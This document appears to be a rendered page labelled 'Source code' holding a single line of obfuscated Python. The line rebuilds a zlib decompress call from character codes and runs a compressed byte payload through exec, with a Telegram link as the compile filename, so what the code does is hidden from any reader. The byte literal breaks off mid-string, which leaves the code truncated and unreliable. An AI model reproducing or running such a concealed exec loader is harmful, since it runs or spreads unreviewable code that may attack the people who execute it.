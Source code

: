 exec((lambda _____, ______ : ______(eval((lambda ____,__,_ : ____.join([_(___) for ___ in __]))('',[95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 34, 122, 108, 105, 98, 34, 41, 46, 100, 101, 99, 111, 109, 112, 114, 101, 115, 115],chr))(_____),"<https://t.me/TT_RQ","exec"))(b'x\x9cT]\t[\xd5\xcc\xd2\xfc+\x80\x80\xecd\xb2N\x14\x90]\x147\x10\x104,\x93d\x02\xc8\xbe\xaf\xfa\xdb\xef\xa9\xea\x0e\xbe\xf7{>\xdf\xabpN\x96\x99\x9e\xee\xea\xea\x9a\x1e\x7f\xef\xab\x81\x81cwR\xd6\xaek\x17\xff7"\xff\xb3\xdb\xf5F\xff2\xe0o\xdd\xf1\xff}f\x04\xff\xaf\xbf\x1f\xfb}vx:\xf0kw\xa0\xf3\xf7\xc1\xae\xe6\xec\x12?\xed:<\xed\xfc\xcf\xf6\xe0\xe0\xc0\xeb\xd7#\xbf\xf2d\xa4\x0b\x7fL\xc0\xff\xe4\x9d\xff\x98\x10\xff1\xf8O\x8c\xff\xa4\xf2\t\xfc\x89\x83\x91\xae\x08?\x0c\xf1\x99\xc0\xea\xf7r+?\x8e;_\x8aS\xfc0\xc0\x7f:\xff\xca\xf3\xf6Z\xff\xb9t\xac\xbf4&\xe1\x7f\xb6G\xaa\x83\xcb\xce\xf3\xf0\x8d\x06Gz&\xee\xee\xee\xc6\x1e\xcen\xaeoJ?V\x9d\x9d\x8cW\xe3\xe7\x0f\xd7\x07g\xa7\xc7\x87\x8d\xef\x19\xe9\xf1\x9dq\xe9\xe9|\xbe|}_\xdc\xe7\xd5\xdavq\xfd\xab\xb8\xaf\xe3\xe2\xber\xc5\xbd\t\x8b\xfb\xa6\x1e.:\x1f*\xee\xcb\xf0\xe3\x9b\xa3\xf7+\xc5}\xd0\xf9m`:\xbf\xed\xfc\t\x92\xba\xf3\xbd\xa4\xaf\xf3\xb7\xceg}\xde[\\\xca_\xdb?e\xe7Oe;\x97\xe9\xfco]v\xfe4\xb8\xcf\xf7\xce\xb7\x93\xce/;\x97\xf5\xcd\x9f\xaf\xe3a\xd4\xf9i^\xdc\xbb\xce\xa5\xcb\xce\xa7\xf2\xb4\xf3\t\x97\xe1/\xa7\x9d\x8f\xf8\xce_\xdc\xef\xf3\xceU\x82\xce\xef;\x9fi\xf0\xc5\xce\x05\xbc\xc3\x1d\x8e:W\xeb\\\xb6\xe9\xfc1\xf8r"\x7f\xf7\xd5]\xe7\xb7\x9d\xe7\xab\x8d| H;\xbf,\xe5\x0f\x9e\xa7\x89\xe5\x83\xb5\xef\xdc\xde:\xfdV)\x7f\\\xe7\xef\xb6\xf3\xa7\xea\xfc\xc9\xf0\xd0\x1e\xaf\x86G\xc1\x9f\xa0\xb9\xfd\xdb\xb9\xa8\x97G\xc0\xc5<\x9e\xb6\xf3\xa7\xb1\'\x9d+f\xf2\xc5\xb2s\xe1\xca\xe3\x02\x9dO\x07U\xe7\n\x9dk\x94\xfe\x11\xef\xee\xf8 \xaf;w\x8a\xb6\xf1\xb5J\x06\xac\xc1\xcb&w\xf8K\xd8\xcd\xff\xe2\x97\x9d9\xa8\xd2\xdd\xcegs\x19\xb5 \x92\xa7\xf2\xe1\x1eF\x04\xbf\x0e\xc7\xe7\xf8\xbb\xce\x15\xcb\xce05\x18\x9a\xce\xa7\xebJ\xe6\x12\xef\xe3\xf5ql\x86ov\x9e\x1f\xc3\xdd\xf0\xc9:C\xfb\x03/\xb1\xfb\x80\xf1\xd8\xc1\x18\xbc\x93\x17\xb2\x9d/4\xc9B\xa5\xe6\xc0\x7f\xc1\x1c\xe27\xf2\x12\xb0\r\xdc$\xc0 5\x07\x07\xf8\xd5\xbe\\\xbfI\xff\xf3\x07\xb3\xd2\x99\x8c&\xc7\xc7\xf4\xfa\xce?t\xde=\xafu\xf2\xf41\xabt\\F\xf9e\x0e<\x86\xf3\x8b\xbc2^\xcc\xa5\xfbb\x08\xb0\x11\x0f\xc3\xa9\x96\xbf\xca\x1c\xe0\x1e\xf8n\x9dl_\xe0\x05~\xe8\xad0\xbfe\xd9\xd5\xf9@\xb9)\x0f\\\'\x87\x17?\xd6\xff\xdd\xdev\x9e\xb2J\xe4\xdf\xaey\xffF\xc6\xa6L\xfe\xfd\xd4\xd7bz.\xc2\x98\xbdQ\x83i\x7f\xd8y\x8cF\x078(/.:O\x98\xc3\xf8\xfd\x11\xdeS\x1e\x15\xbf\xc7``\xdcL5(\x1f\xf6\x9d\xf7\xb0\xb8g\xaa\x17\xd0\x0f\xe0\xef\xf8\x19\x7f\x1e\xe2\tv\xe7\xf1\xd3ay\x18<\\U\x7f\x93\xb7\xb6\x11.\x94\xcd\xe9\xd3\xc3\xc0\xdd\xb5\x98J\x13\x95\xfd\xbbX\x04\xd7\xf2\x1c5.e\xe5k\x95?{\x8b+\x9d\xdf<f\xe3?\xc4fa\xfc\xb86.d\xb2{Y:\\\x8b\xfc\xc1\xf1\x85\xceg5\x80_\x8d\xeb\x00\xe8\xb2\xaah\xb9\x186\xdc\xa9\xc1\x02\xf4}w\xf8ng\n\x1aS\xeb\xd3\xd6\x9f\xf5\xfe\xf8\x9a\x93a\xc0Cc\xb01\x9d\xed 7\xba0}\xfd\x0c\x0b\xbf\x1d;y\x0b\x8f!\x8e\x80\xcfS\x1e\x8cL\xe1\xca2\x8c>I\xe5\x1fu\xde\x8e\xe1o1{Zr)\xde\xa5\xaa\xe4g&\xc3\x9b\x8e\xcf\xcaB\xc1\x02tt#\xd7\x9d\xc5Za\t\xd5\x98\xe2\xfc\xbb\x18\x00<\x17\xa7*\xeb\xc7\xaa\x7f~\x83\x85\xa2OS\xad\xcb\x98u\x9e\xbd\x90Q\xaeLy=\xf5\xed\x0eW\xf2\x17\x18\xd4MY\xb4xKx\x87\xa0\xf3\xbf\x81\x1f{\xab\x0b3\xf8"s\xec\xac8\r\xb8\xcd\xda\xa7\x93\xf7w2P\xb8\xb9\xf3W\x9d\xff\xe0I\x9c\xba\xa4\xe4\x17,\xbf\xf3i\xb3\x06s\x96\xf1\xca9\xafGx\xac\xecF\x87\xb9\x96\xd1\xca\x9a\x1f\xf8K2"\x83\x94\xc7\x0f\xf2\xfb\xd2\x7f\x96\xb1\xb7\x01\x9e\xf0\xe6\xafN\xa6\xd5\xab\xc2\xd1{\xf9\x99\x8c\xe5\x8dN0\xec,\xe7M&y\xa9\x0f\xe2\x0f1\x9d%\xbei\xeb\t\xbc\x0c\x16V\xb3&V\xd2y\xcb\xcb\xce\x8c\xd5\x16\xa3\xda#\xeb\x9b\xfe\xa0sk\x93\xab\x1f\xaa\xe9(\xd4\xb6\r\xc6\xb3\x0c\xfb15\x1d\x9b\xabu\x8daq\xe5\x1co,\xf7\xb2\xbc\xc5\xb5\xf1f\xf6q\xa2\xe3em\x0e\xf3\xba\xd1I\x8a_\xc9$\x07\xe5/\xf1Tpyx?\x8c\x96\x8f\xff\x9e\x9d\x9d\x1db\x91\xa4\xb2>:/\xf6z[\x0c\xa6\xf2\xfb\xc7\xb8\xf2\xf7\xbf\xf2o\xfa1\xae\xc6_\xb7\x8bbC\x9c\x93P\xe6\x14\xc1\x07\xaf\x84\x8ft\x1c\xca)\xcc\xb6\xf3S\xdc\xae\xe6z\x86[\xc9d\xa4\xf19G\xa73\x8c\xd7\xc0\x88\x96Q9\x06k\x19y/\x11\xb2\x82\x07\xcf\xb2G\x89l\xa5z\x08\xd8\x9c\t\xdf\xae\x88g\xcf\xa3j\x7f[\x82\x07|Pe\xf4\x03\xde_lcLO\xef\xe4\x9be\xf0\x01\xef`\xafeyX\xd8r(\xc1\x1eN\x19\x8e\xb34S\x17\xbd?\x060r+2`\xa6\xd2\x90dW5\xf2g\x99\x0c.\x97|\x98ix\xc7\xca6x\xde\xe3+\xf1f\xf0\n\x8cq\xe1{5m3r\x87\xf0\x87hlC;\xf7\x13\x86\xe5\xe5\xc3\xb8S\x9e\x8e\x9f\xfb\x8b[Y&\xf8\x90O1Dk\n-\xaae\xf5\xc1F\xde&\x87kh\x1e\x8f0\xb8\x12\xd1\x8c\x95\x17/1\xad\x95L\x05\x17m\xf0\xa1(\x86d\xf60\xf5\xd6\xfc\xd6\x10\t\x1b\xac\x07v&\xdaU\x8c)\xdb}\x1a\x10?h\xf3>L\xcd/\r\x10u\xbf\xd8.\x16\xb9\xae\t:>\x7f"V\n#\x85\xeb\xe4\x87\xd3\xbf\xe2\xa2l\x0e\xe3)\xa3g1\x84U\xac\x8d\x0c+"\xbf\x9a\x10\x10E\xc4\x13\x1c\xe2\xfb\xb5\x8c\x05W[\xb3D\xc4q\xef\xdc\xb4|\x0e\xb6\x85g.\xe1q\tf\xfc\xda\x19V\xdb\xe3\xee\x94\xf8\xcc\x1c!\x80\xd1\x15\x13k:\xfe\xc6v\x9e\xd3\xc0\xd5\xba\xea-\xbet%\x97\xc2\x82\x80\xad\xf1\xd6\xe1\xce\xe4\xcc\xc3\x05f^<\x18\xd6%!M&N\x88Fie\xe0:\xd1\xa4@`Y\x93\xb7\xb5\xc1\x9f\xce\xeb\xc4\xf2\xa0>\\\xc0-f1Ao\xef\x04\xcd\xc1d\xb1\x92\xeb\xe8\x93|\xb0\xb2\xeb\xbb\x0b\xff\x82\t#X\x82\xa1i\x18\x8e\xbd\xb8]\xc6\xbf|\\\xee\x1f0\x9cFr!\\\x03\xf6_6\xc7\x1f1}Gx\xb6+]\x97\xbe(\xc6\xe4!i\x91\xce|\xa0\xf7\x02~\x84\x1fs[\xc77\xb7bK\xb5\xd9\x92\xc1a\x18v\xe3\xea\xd9\xaa\x16\x90\x19\xac<\xaf\x91\x98!\x85#\x12\x14\xd7\xe2!\x9a\xf0\xa7\x0c\x0c\xe2Y\'\x84]\x8b\xfd\xdbH